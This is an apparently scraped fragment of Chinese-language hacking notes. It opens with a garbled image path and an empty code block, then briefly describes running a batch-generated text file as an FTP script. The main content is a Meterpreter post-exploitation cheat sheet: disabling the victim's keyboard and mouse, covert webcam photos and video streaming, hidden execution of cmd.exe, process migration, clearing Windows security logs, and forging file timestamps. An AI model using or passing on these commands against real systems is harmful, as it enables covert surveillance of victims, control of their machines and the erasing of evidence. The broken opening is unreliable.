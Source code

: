 创建一个haha.txt

```
*CODE:\
```

双击bat文件会得到一个txt文件。

然后再cmd里把得到的txt文件内容当作一个脚本去执行：

```
ftp -s:ftp.txt
```



## kali的meterpreter其他命令：

```
uictl [enable/disable] [keyboard/mouse/all]   # 开启/停用键盘/鼠标

webcam_list    # 查看摄像头
webcam_snap    # 通过摄像头拍照
webcam_stream   # 通过摄像头开启视频

execute    # 在目标上执行文件
execute -H -i -f [exe文件]    # 创建新的隐藏、可交互的、命令：.exe
cmd.exe
execute -H -i -f cmd.exe    # 创建新的隐藏、可交互的、命令：cmd.exe

getpid    # 获取当前进程的pid【进程的id】
ps     # 查看活跃进程
migrate [pid]    # 将meterpreter转移到某个pid中[附着]
kill [pid]     # 杀死某个进程

clearev    # 清除日志，清除windows里的应用程序日志、系统日志、安全日志。但会留下痕迹

timestomp -v c://a.exe    # 查看c盘的a.exe的时间戳
timestomp c://b.exe -f c://a.exe    # 将a.exe的时间戳复制给b.exe
```



